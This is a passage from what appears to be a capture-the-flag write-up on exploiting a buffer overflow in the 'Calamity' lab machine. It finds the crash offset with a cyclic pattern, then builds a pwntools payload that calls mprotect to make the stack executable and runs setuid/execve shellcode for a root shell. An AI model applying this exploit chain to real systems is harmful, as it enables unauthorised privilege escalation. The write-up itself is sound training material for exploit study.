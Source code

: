     
    
    Filename:
    

Put the pattern into a file:

    
    
    xalvas@calamity:~$ echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9" > /tmp/0xdf
    

And give that to the `debug` function. On hitting enter, it crashes:

    
    
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x63413563 in ?? ()
    

I can take that back to my box and find the offset:

    
    
    root@kali# msf-pattern_offset -q 0x63413563
    [*] Exact match at offset 76
    

#### Stage 3 - Shell

My first instinct was to use a ret2libc attack. That failed, and I’ll cover it
in Beyond Root.

My new strategy is to go what I believe the author is trying to force me to
do, which is to get a shell with two steps:

  * Make the stack executable;
  * Jump to the start of the vulnerable buffer where I’ll have shellcode.

To accomplish that, I’ll overwrite

The payload will start with the shellcode to run a shell (I’ll include a call
to `setuid` just in case the binary is dropping priv), followed by junk to
fill out 76 bytes. Then I’ll include the return address with the address of
`mprotect`. The next word will be the return address for that function, which
will be the buffer. Then I’ll have the three arguments for `mprotect`.

Since the program is already waiting for a filename to read in `debug`, I just
need to write this payload to a file, and then pass that filename to the
program, and go interactive:

    
    
    ## Stage 3 - Shell
    mprotect = 0xb7efcd50
    size = stack_end - stack_start
    shellcode = asm(shellcraft.setuid(0) + shellcraft.execve('/bin/sh'))
    
    payload =  shellcode
    payload += b"A" * (76 - len(shellcode))
    payload += p32(mprotect)
    payload += p32(buff_addr)
    payload += p32(stack_start)
    payload += p32(size)
    payload += p32(7)
    log.info(f'Writing Stage 3 exploit to {fn}')
    sshConn.upload_data(payload, fn)
    
